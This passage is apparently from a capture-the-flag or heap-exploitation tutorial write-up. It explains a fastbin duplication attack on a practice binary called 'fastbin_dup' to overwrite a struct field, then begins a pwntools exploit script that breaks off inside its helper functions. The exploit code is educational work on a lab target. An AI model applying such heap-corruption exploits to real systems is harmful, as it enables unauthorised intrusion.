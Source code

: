 The binary contains a critical `struct user` structure that we can target for exploitation:

```bash
pwndbg> ptype user
type = struct user {
    char username[16];
    char target[16];
}
```

Total size: 32 bytes (0x20 bytes)
Fastbin size: 0x30 chunks are perfect (0x20 user data + 0x10 chunk header = 0x30)

Our goal is to overwrite the `target` member of the `user` structure using the fastbin duplication vulnerability. Here's our step-by-step approach:

### Step 1: Locate the User Structure in Memory

First, we need to find where the `user` structure is allocated in the heap.

### Step 2: Fastbin Dup to Overwrite Target

Now we'll use the fastbin duplication to overwrite the `target` field.

### Step 3: Verify the `target` member

We will use the option `3` to verify our `target` member


By combining all these steps I've developed the following script. I've added comments which will help you better understand it.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'fastbin_dup')
libc = ELF(exe.libc.path, checksec=False) 

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

def malloc(size, data):
    global idx 
    idx += 1
    io.recvuntil(b'> ')
    io.sendline(b'1')
    io.recvuntil(b'size: ')
    io.sendline(f"{size}")
    io.recvuntil(b'data: ')
    io.sendline(data)
    return idx -1

def free(idx):
    io.recvuntil(b'> ')
    io.sendline(b'2')
    io.recvuntil(b'index: ')
```